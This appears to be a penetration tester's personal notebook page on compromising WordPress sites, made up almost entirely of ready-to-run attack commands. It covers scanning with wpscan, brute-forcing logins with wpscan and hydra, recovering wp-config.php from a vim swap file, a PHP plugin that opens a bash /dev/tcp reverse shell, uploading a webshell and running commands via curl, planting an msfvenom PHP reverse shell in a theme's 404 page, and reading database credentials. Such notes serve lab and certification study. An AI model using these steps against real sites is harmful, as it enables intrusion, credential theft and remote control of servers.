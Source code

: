 ```yaml
---
category: Uncategorized
tags: []
---
```

#### WPScan
```bash - kali
wpscan -e ap,at,tt,cb,dbe,u,m --detection-mode aggressive --plugins-detection aggressive -t 30 --url http://$TARGET
```

#### Password Cracking
```bash - kali
wpscan --url http://$TARGET -U admin -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt
```

#### wp-config.php.swp file
```bash - kali
vim -r .wp-config.php.swp
```

```bash - kali
esc
```

```bash - kali
:w wp-config.txt
```

Now viewing the contents are much easier in wp-config.txt file.

#### WORDPRESS PLUGIN SHELL

[https://www.sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell](https://www.sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell)

```bash - kali
mousepad reverseshell-plugin.php
```

```php
<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: [http://www.sevenlayers.com](http://www.sevenlayers.com)
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/$KALI/443 0>&1'");

?>
```

```bash - kali
zip reverseshell-plugin.zip ./reverseshell-plugin.php
```

![[rlwrap]]

Plugins > Add new > Upload > Install now
* If this fails, try doing [[Wordpress#Webshell method]]

Now just click on "Activate Plugin" and done!

#### Webshell method
```
cp /usr/share/seclists/Web-Shells/WordPress/plugin-shell.php .
```

```
sudo zip plugin-shell.zip plugin-shell.php
```

WordPress > Plugins > add New > Upload > Browse > plugin-shell.zip > Install now

Even if this says it failed to install, STILL RUN THE CURL COMMAND!
![[Pasted image 20220601122227.png]]

```
curl http://$TARGET/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami
```

#### php template shell
```bash - kali
msfvenom -p php/reverse_php lhost=$KALI lport=443 -f raw
```

In WordPress, go to Appearance > Theme Editor, choose a page to edit, here we try the 404 page.

After updating, just access a non-existing page to trigger reverse shell.

#### Finding usernames & passwords:
```bash - kali
cd /var/www/html/wordpress
```

```bash
cat wp-config.php | grep DB
```

#### hydra command against wordpress:

![[TechLexicon/Penetration Testing/Reference/7._Tools/Hydra#Hydra against WordPress]]

FROM BURP:
>log=webdeveloper&pwd=root&wp-submit=Log+In&redirect_to=http%3A%2F%2F$TARGET%2Fwp-admin%2F&testcookie=1

```bash - kali
hydra -l webdeveloper -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt $TARGET -s 80 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' -f
```

![[Port 3306 - MySQL ~#MySQL to Wordpress password]]

[[3._LFI RFI#Wordpress config php]]